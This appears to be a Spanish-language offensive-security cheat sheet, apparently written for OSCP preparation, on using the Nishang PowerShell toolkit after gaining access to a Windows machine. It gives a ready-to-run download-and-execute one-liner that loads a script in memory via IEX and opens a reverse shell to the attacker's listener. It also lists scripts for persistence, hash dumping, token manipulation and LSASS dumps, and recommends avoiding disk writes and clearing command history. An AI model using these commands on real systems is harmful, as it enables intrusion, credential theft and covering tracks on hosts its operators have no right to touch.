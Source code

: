 Nishang es un conjunto de scripts PowerShell útiles para la fase de post-explotación, ejecución de payloads, reconocimiento, persistencia y escalada de privilegios en sistemas Windows. Muy útil si tienes acceso a PowerShell desde una shell limitada o Evil-WinRM.

---

## Instalación y uso

Clonar el repositorio:
```bash
git clone https://github.com/samratashok/nishang.git
cd nishang/Shells
```

Desde Kali puedes servir los scripts por HTTP:
```bash
sudo python3 -m http.server 80
```

---

## Uso Común de Reverse Shell con PowerShell

### En Kali (escuchando):
```bash
rlwrap nc -lvnp 4444
```

### En víctima (PowerShell):
```powershell
powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://<tu_ip>/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <tu_ip> -Port 4444"
```

---

## Scripts útiles de Nishang

- `Invoke-PowerShellTcp`: reverse shell
- `Add-Persistence`: persistencia en Windows (registro, tareas, etc.)
- `Get-PassHashes`: obtiene hashes si tienes permisos
- `Invoke-TokenManipulation`: manipulación de tokens
- `Out-Minidump`: minidump de LSASS (útil para mimikatz)

---

## Casos de Uso OSCP

- Obtener shell reversa sin subir binarios (solo PowerShell)
- Mantener persistencia tras acceso
- Escalar privilegios con técnicas de token impersonation o bypass UAC

---

## Buenas Prácticas

- Servir Nishang desde tu máquina con HTTP simple
- Cargar scripts en memoria con `IEX` para evitar escribir en disco
- Limpiar comandos del historial si usas sesiones interactivas

---

